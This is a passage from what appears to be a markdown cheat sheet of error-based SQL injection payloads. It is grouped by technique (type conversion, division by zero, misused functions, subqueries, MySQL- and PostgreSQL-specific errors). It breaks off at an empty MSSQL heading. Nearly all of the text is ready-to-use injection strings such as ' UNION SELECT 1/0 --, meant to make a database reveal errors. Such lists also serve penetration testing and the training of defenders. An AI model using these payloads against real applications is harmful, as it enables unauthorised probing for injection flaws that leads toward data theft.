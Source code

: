Leave a quote unclosed to generate an error.

### 2. Type Conversion Errors

#### Invalid Type Casting

```  
' UNION SELECT CAST('abc' AS SIGNED) --  
```

Cast a string to an integer to cause a type conversion error.

### 3. Function-Based Errors

#### Division by Zero

```  
' UNION SELECT 1/0 --  
```

Force a division by zero error.

#### Invalid Function Usage

```  
' UNION SELECT EXP('abc') --  
```

Use a function incorrectly to trigger an error.

### 4. Subquery Errors

#### Invalid Subquery

```  
' UNION SELECT (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2) AS temp) --  
```

Use a subquery in a way that causes an error.

### 5. Database-Specific Errors

#### MySQL Errors

```  
' UNION SELECT GTID_SUBSET('abc', 'def') --  
```

Use invalid queries to trigger MySQL-specific errors.

#### PostgreSQL Errors

```  
' UNION SELECT TO_NUMBER('abc', '999') --  
```

Use invalid operations to cause PostgreSQL errors.

#### MSSQL Errors
